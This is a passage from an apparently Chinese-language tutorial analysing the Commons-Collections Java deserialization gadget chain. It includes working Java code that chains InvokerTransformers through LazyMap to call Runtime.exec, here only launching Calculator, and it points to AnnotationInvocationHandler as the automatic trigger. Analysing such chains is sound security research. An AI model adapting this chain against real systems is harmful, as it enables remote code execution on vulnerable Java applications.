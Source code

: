 ![](Commons-Collections-反序列化利用链分析/image-20210210165212176.png)

获取实例化也可以通过 `LazyMap#decorate`

![](Commons-Collections-反序列化利用链分析/image-20210210175325623.png)

**Level-2 payload**

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, chainDemo);
        mapDemo.get("random");
    }
}
```

由于上面我们是手工调用的 LazyMap 的 `get` 方法，我们需要结合反序列化自动调用的话，跟上面 TransformedMap 一样，需要找一个重写的 `readObject` 里面调用了 `get` 方法的。这里使用到的还是 AnnotationInvocationHandler。
